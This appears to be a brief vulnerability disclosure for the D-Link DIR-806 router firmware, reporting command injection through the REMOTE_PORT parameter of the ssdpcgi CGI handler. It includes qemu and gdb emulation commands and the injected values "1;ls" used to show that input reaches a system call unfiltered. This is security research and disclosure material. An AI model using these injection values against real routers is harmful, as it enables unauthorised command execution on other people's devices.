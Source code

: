 # D-LINK DIR-806 1200M11AC wireless router DIR806A1_FW100CNb11 command injection(parameter of REMOTE_PORT)
## Firmware address
http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-806 
![image-1](../img/4.jpg)
## Debugging verification
Debugging with qemu and gdb:

qemu: 

`sudo chroot . ./qemu-mips-static -0 "ssdpcgi" -E REMOTE_ADDR=127.0.0.1 -E SERVER_ID="1;ls" -E REMOTE_PORT=8888 -E HTTP_ST="upnp:rootdevice" -E REQUEST=/ -E REQUEST_METHOD=M-SEARCH -g 12345 ./htdocs/cgibin`

gdb: 

`set architecture mips` 

`set endian big` 

`target remote 127.0.0.1:12345` 

Set the REMOTE_PORT parameter as REMOTE_PORT="1;ls", The results are shown in the figure below: 
![image-1](../img/3.jpg)

No filtering is done, and then the lxmldbc_system function is passed in to execute causing the command execute


